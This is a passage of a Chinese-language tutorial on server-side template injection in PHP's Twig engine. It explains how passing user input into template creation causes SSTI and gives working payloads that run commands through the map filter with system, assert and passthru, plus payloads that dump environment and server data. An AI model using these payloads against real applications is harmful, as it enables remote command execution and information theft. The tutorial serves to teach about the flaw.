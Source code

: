 `createTemplate`时注入了`$_GET['name']`，就会引发SSTI

而如下代码则不会，因为模板引擎解析的是字符串常量中的``{``{`name`}``}``，而不是动态拼接的`$_GET["name"]`

```
&lt;?php
require_once "./vendor/autoload.php";

$loader = new \Twig\Loader\ArrayLoader([
    'index' =&gt; 'Hello `{``{` name `}``}`!',
]);
$twig = new \Twig\Environment($loader);

echo $twig-&gt;render('index', array("name" =&gt; $_GET["name"]));
```

而对于模板引擎的利用，往往是借助模板中的一些方法实现攻击目的，比如Twig中的过滤器`map`

[![](https://p1.ssl.qhimg.com/t01ef165455da86f66f.png)](https://p1.ssl.qhimg.com/t01ef165455da86f66f.png)

举个经典的例子

``{``{`["man"]|map((arg)=&gt;"hello #`{`arg`}`")`}``}``<br>
会被编译成下面这样

`twig_array_map([0 =&gt; "id"], function ($__arg__) use ($context, $macros) `{` $context["arg"] = $__arg__; return ("hello " . ($context["arg"] ?? null))`

关于这个`twig_array_map`，源码中是这样的

[![](https://p5.ssl.qhimg.com/t01cdeb04ca691db91a.png)](https://p5.ssl.qhimg.com/t01cdeb04ca691db91a.png)

可以看到传入的`$arrow`被当作函数执行，那么可以不传`arrow function`，可以只传一个字符串,找个两个参数的能够命令执行的危险函数即可

比如

```
`{``{`["id"]|map("system")|join(",")`}``}`
`{``{`["phpinfo();"]|map("assert")|join(",")`}``}`
`{``{`["id", 0]|map("passthru")`}``}`
```

类似的，我们还可以找到一些其他的过滤器`sort`,`filiter`，网上也有较多介绍，就不再赘述了。

当然，SSTI还有一种基础的利用方式就是用来泄露源码和程序环境中的上下文信息，在`Twig`引擎中，我们可以通过下面方法获得一些关于当前应用的信息

```
`{``{`_self`}``}` #指向当前应用
`{``{`_self.env`}``}`
`{``{`dump(app)`}``}`
`{``{`app.request.server.all|join(',')`}``}`
```

### <a class="reference-link" name="ERB(Ruby)"></a>ERB(Ruby)

相较于`Twig`,ERB的代码直接提供了一些命令执行的接口，比如
